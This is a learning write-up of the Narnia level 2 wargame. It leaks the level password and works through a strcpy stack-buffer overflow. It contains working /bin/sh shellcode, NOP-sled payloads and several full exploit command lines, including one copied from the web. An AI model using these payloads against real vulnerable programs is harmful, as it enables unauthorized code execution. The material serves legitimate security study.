# Narnia 2

Password: `nairiepecu`

C Code:

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

Looks to be a proper stack overflow, abusing the `strcpy` command (which doesnt check destination buffer length). My initial thoughts are that if I can overflow buffer so it overwrites the next instruction after strcpy (which will be where the instruction pointer is, and so the next instruction will be run) I can bounce into my own shellcode. Maybe just prefix the shellcode from narnia1 with a sufficient set of `no-op` codes so its lined up correctly?

Something like `./narnia2 "$(echo -e '\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')"`, with the shellcode prefixed with multiple `\x90` to get into the right position.

The buffer is 128 chars, so after 128 we have overloaded the buffer and start overwriting the main code. The strcpy command is around 56 32bit words down, so we need to overwrite by a further 1152 bytes...I think. I gave this a go, but it wasn't successful. 

However I did discover that if I overflowed the buffer by 136 characters, the final four characters overwrote the return address from the main function. From this, after a bit of further research, I worked out that the approach might be to include the shell code in the buffer, then jump to it by overflowing the return address. Hmm.

At this point I spent some time doing some learning. The following three videos from LiveOverflow were very helpful (they're in a row as part of the Binary Hacking playlist):

- [First Stack Buffer Overflow to modify Variable - bin 0x0C](https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13)
- [Buffer Overflows can Redirect Program Execution - bin 0x0D](https://www.youtube.com/watch?v=8QzOC8HfOqU&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=14)
- [First Exploit! Buffer Overflow with Shellcode - bin 0x0E](https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=15)

On top of that, the original article by AlephOne on stack overflows fills in the missing pieces, and is excellent:

[Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html#article)

## Steps

The buffer size is 128. I am going to insert the shellcode from narnia1 I came up with, prefixed with NOP instructions and post fixed with a return address that attempts to force the program to jump back into the buffer when it returns from main.

Running GDB with the following string:

ABCDEFGHIJKLMNOPQRSTUVWXYZ67890123456789AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Causes ret to be overflown with XXXX. So we can set the ret address to whatever by replacing XXXX in our dev string with something else.

Breakpointing after the strcpy shows the first address of the buffer (containing ABCD in reverse order) is 0xffffd5a8.

Our shellcode, \xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68, is in reality 28 characters long.

So perhaps shellcode + padding + address?

Address is \xa8\xd5\xff\xff

Padding is 132 - 28 = 104, so AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Final string is \xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa8\xd5\xff\xff

```
./narnia2 $(echo -e "\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa8\xd5\xff\xff")
```

This results in a segfault :( Back to GDB...

Maybe prefix with NOPs?

```
./narnia2 $(echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc0\xd5\xff\xff")
```

The code is getting executed but doesnt seem to be jumping into execve.

Bouncing around the net, this code is doing what I am trying to do, and works:

`./narnia2 $(python -c 'print "\x90"*75 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xc8\xd5\xff\xff"*11')`

Breaking down my code, and switching to python to see if encoding is easier (and to make it easier to evaluate):

Total character size: 136 (75 + 25 + 44 in working code, so 144)
Length of my shellcode: 28

My python script would be `./narnia2 $(python -c 'print "\x90"*104 + "\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\xc0\xd5\xff\xff"')`


python -c 'print "\x90"*(132-23) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xc0\xd5\xff\xff"'